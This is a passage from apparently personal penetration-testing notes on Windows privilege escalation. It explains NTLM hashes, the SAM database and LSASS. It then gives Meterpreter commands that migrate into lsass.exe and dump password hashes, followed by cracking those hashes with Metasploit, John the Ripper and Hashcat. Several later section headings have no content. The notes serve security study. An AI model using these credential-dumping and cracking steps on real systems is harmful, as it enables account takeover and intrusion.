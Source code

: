 - PrivescCheck - This script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gathers various information that might be useful for exploitation and/or post-exploitation. 
- GitHub Repo: <a href="https://github.com/itm4n/PrivescCheck">https://github.com/itm4n/PrivescCheck</a>
### **8-Dumping & Cracking NTLM Hashes**
#### Windows Password Hashes
- The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
- Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
- Windows versions up to Windows Server 2003 utilize two different types of hashes: 
	- LM 
	- NTLM
- Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards
#### SAM Database
- SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
- The SAM database file cannot be copied while the operating system is running.
- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
- In modern versions of Windows, the SAM database is encrypted with a syskey.
Note: Elevated/Administrative privileges are required in order to access and interact with the LSASS process.

```bash
meterpreter > migrate -N lsass.exe
#or 
meterpreter > pgrep lsass.exe
544
meterpreter > migrate 544
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ahmed:1000:aad3b435b51404eeaad3b435b51404ee:f0e181e88ca235d83e3633a50c274eec:::
meterpreter > background
msf6 exploit(windows/smb/ms17_010_eternalblue) > creds
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/analyze/crack_windows
msf6 exploit(windows/smb/ms17_010_eternalblue) > set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
msf6 exploit(windows/smb/ms17_010_eternalblue) > crerds

# or after hashdump take the hashes and put it in a file for example called hashes .txt
┌──(ahmed㉿kali)-[~]
└─$ john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
# using hashcat
┌──(ahmed㉿kali)-[~]
└─$ hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```
### **9-Persistence Via Services**
### **10-Persistence Via RDP**
### **11-Privilege Escalation with PowerUp**
### **12-Windows Credential Manager**
### **13-PowerShell History**
### **14-Exploiting Insecure Service Permissions**